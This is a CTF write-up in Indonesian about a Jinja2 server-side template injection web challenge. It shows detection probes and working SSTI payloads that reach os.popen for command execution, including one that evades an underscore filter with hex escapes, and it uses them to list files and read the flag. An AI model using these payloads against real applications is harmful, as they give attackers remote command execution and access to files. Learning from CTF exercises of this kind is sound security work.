

#CTF #MonthlyCTF24 #WriteUp #WebExploitation #SSTI #Jinja2

>**Flag:** `PC24{h4T1_H4tI_W1Th_SSTI_BTW}`
### Soal:

### Write Up:
Dalam soal, sudah diberi petunjuk yang jelas bahwa soal ini termasuk dalam kerentanan [[-Server Side Template Injection (SSTI)]]. 

Sesuai deskripsi soal kita coba memasukkan `{{7*7}}` dengan mengacu pada tabel gambar dibawah
![[ssticheck.png]]
`{{7*7}}` menghasilkan output 49, kita lanjut dengan `{{7*'7'}}` maka hasilnya `7777777`. Dari sini dapat dipastikan bahwa ini adalah `jinja2`. Kita bisa gunakan [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) untuk mencari flag.

Pertama, mencoba dengan Exploit SSTI dengan memanggil `os.popen().read()`
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Output:

Tampaknya disini `_` dilarang untuk digunakan. Cari cara untuk bypass hal tersebut.
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
`\x5f` mempresentasikan `_` dalam bentuk hex

Output:

Sekarang kita tinggal mencari flagnya. Ganti `id` menjadi `ls` untuk melihat isi directory.

read `flag.txt` dengan `cat flag.txt` dan **FLAG HAS BEEN FOUND!!**
